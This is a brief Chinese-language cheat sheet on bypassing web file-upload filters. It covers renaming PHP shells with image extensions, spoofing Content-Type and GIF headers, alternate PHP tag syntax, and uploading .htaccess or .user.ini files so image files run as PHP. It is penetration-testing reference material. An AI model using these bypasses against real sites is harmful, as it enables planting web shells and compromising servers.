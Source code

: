 # 更改文件名
例如将`shell.php`改为`shell.gif`，`shell.png`之类的

# 更改`Content-Type`
例如`Content-Type: image/gif`

# 添加文件头
例如伪造`GIF`时添加`GIF98a`文件头

# 更改`php`木马为`phtml`
例如`<?php phpinfo();?>`改为`<script language='php'>phpinfo();</script>`

# 上传`.htaccess`文件
对于`Apache`有效
```
AddType application/x-httpd-php .jpg
```
该`.htaccess`文件指定使用以`php`代码看待名称含有`.jpg`的文件

```
php_value auto_prepend_file 1.txt
php_value auto_append_file 2.txt
```
该`.htaccess`文件指定在解析`php`文件前先包含`1.txt`中的内容，解析`php`文件后包含`2.txt`中的内容

# 上传`.user.ini`文件
`php`的用户配置文件，适用范围比`.htaccess`更广
```ini
auto_prepend_file=1.txt
auto_append_file=2.txt
```
和上面的`.htaccess`效果相同

#Web #Apache #PHP #nginx #访问控制 #HTML #文件上传 #绕过 #phtml